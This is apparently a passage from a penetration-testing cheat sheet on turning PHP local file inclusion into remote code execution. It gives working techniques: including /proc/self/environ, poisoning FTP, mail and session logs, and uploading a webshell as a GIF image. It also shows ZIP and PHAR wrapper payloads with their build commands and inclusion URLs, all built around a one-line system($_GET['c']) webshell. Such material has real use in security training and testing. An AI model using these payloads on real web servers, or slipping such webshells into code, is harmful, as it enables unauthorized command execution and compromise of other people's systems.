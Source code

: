 The User-Agent header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a number usually between 0-50).

Try also poisioning other logs like FTP or mailserver logs, which may log usernames after login attempts, etc. 

**Upload a image-file containing a webshell**

```php
GIF89a<?php system($_GET["c"]); ?>
```

Store this shell as `me.gif`, upload it to the webserver (e.g. as profile image) and include it then.

**Using the ZIP wrapper**

```bash
echo '<?php system($_GET["c"]); ?>' > shell.php && zip shell.zip shell.php
```

Upload this file and incude it with

`?vuln_param=zip://./upload_dir/shell.zip%23shell.php?c=whoami`

**Using PHAR**

Create this php file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["c"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

Then compile it into a phar file and rename it to jpg:

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Upload this file and incude it with

`?vuln_param=phar://./upload_dir/shell.jpg%2Fshell.txt?c=whoami`

**PHP session poisioning**

Session data is stored at:

 - `/var/lib/php/sessions/sess_[SESSIONID]`
 - `C:\Windows\Temp\sess_[SESSIONID]`

 1. Examine the session data by including the file.
 2. Determine if any value in those file can be controlled
 3. Adding a webshell into that value (e.g. `<?php system($_GET["c"]); ?>`)
 4. Including the session file and running the webshell
